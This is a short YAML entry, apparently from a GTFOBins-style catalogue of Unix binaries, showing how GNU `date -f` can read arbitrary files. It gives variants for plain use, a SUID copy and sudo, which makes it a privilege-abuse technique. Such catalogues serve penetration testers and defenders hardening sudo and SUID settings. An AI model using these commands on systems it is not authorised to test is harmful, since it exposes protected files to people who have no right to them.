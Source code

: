 ```yaml
---
description: |
  Each line is corrupted by a prefix string and wrapped inside quotes, so this may not be suitable for ttpary files.

  This only works for the GNU variant of `date`.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        date -f $LFILE
  suid:
    - code: |
        LFILE=file_to_read
        ./date -f $LFILE
  sudo:
    - code: |
        LFILE=file_to_read
        sudo date -f $LFILE
---
```

